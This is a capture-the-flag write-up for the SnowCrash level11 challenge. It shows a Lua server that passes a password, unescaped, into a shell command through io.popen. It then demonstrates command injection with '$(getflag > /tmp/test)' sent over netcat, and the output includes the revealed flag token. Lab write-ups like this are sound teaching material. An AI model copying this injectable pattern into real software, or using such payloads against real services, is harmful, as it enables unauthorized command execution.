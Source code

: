 # Solution

So once we logged in, we find in the home a file level11.lua here is the source code:

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

so this look like server that is listening to port 5151 on localhost and wait for password once he received the password,
he passed to the hash function and do a comparaision with the hash that he received and another hash.

but if we take a close look at the hash function we will find something interesting.

```lua
function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
```

This line !

```lua
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

this line is pretty explainatory it use the password that you provide as an argument to execute some shell command,
and it will pipe to sha1sum, since we have control of pass we can input what we want and we can leverage simple metacharacter feature of bash,
such as \`\` or $(...) notation let's test if it's work !

```sh
level11@SnowCrash:~$ nc localhost 5151
Password: $(getflag > /tmp/test)
Erf nope..
level11@SnowCrash:~$ cat /tmp/test
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

It's working ! now we can get the flag and go to next level
